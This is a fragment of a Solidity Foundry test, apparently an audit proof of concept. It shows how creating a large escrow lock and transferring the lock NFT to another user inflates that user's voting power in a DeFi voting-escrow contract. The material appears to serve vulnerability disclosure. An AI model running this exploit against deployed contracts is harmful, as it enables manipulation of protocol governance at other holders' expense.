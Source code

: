 ```Solidity
        assertEq(escrow.ownerOf(tokenId), user1);
        console2.log("balanceOfNFT(tokenId)     :", escrow.balanceOfNFT(tokenId));
        console2.log("balanceOfNFTAt(tokenId)   :", escrow.balanceOfNFTAt(tokenId, block.timestamp));
        console2.log("getVotes(user1)           :", escrow.getVotes(user1));
        console2.log("getVotes(user2)           :", escrow.getVotes(user2));

        assertEq(escrow.balanceOfNFT(tokenId), getMaxVotingPower(TOKEN_1, escrow.locked__end(tokenId)));
        assertEq(escrow.balanceOfNFT(tokenId), escrow.balanceOfNFTAt(tokenId, block.timestamp));
        assertEq(escrow.balanceOfNFT(tokenId), escrow.getVotes(user1));
        assertEq(escrow.getVotes(user2), 0);

        vm.stopPrank();

        vm.startPrank(user2);

        FLOW.approve(address(router), TOKEN_1M);
        DAI.approve(address(router), TOKEN_1M);
        router.addLiquidity(address(FLOW), address(DAI), false, TOKEN_1M, TOKEN_1M, 0, 0, user2, block.timestamp);

        flowDaiPair.approve(address(escrow), TOKEN_1M);

        // Take a flashloan of lock
        console2.log("\nTake a flashloan of lock token");
        uint256 tokenId2 = escrow.create_lock(TOKEN_1M, FIFTY_TWO_WEEKS);
        console2.log("Created lock with 1M locked tokens");
        console2.log("getVotes(user2)           :", escrow.getVotes(user2));
        assertEq(escrow.balanceOfNFT(tokenId2), getMaxVotingPower(TOKEN_1M, escrow.locked__end(tokenId2)));

        // Transferring tokenId2 from user2 to user1
        console2.log("\nTransferring flashloaned tokenId2 from user2 to user1");
        escrow.safeTransferFrom(user2, user1, tokenId2);
        assertEq(escrow.ownerOf(tokenId2), user1);
        vm.stopPrank();

        console2.log("balanceOfNFT(tokenId)     :", escrow.balanceOfNFT(tokenId));
        console2.log("balanceOfNFT(tokenId2)    :", escrow.balanceOfNFT(tokenId2));
        console2.log("balanceOfNFTAt(tokenId2)  :", escrow.balanceOfNFTAt(tokenId2, block.timestamp));
        console2.log("getVotes(user1)           : %s <= Inflated voting power", escrow.getVotes(user1));
        console2.log("getVotes(user2)           :", escrow.getVotes(user2));

        assertEq(escrow.balanceOfNFT(tokenId2), 0);
        assertEq(escrow.getVotes(user1), escrow.balanceOfNFT(tokenId) + escrow.balanceOfNFTAt(tokenId2, block.timestamp));

        vm.stopPrank();
    }
}

```
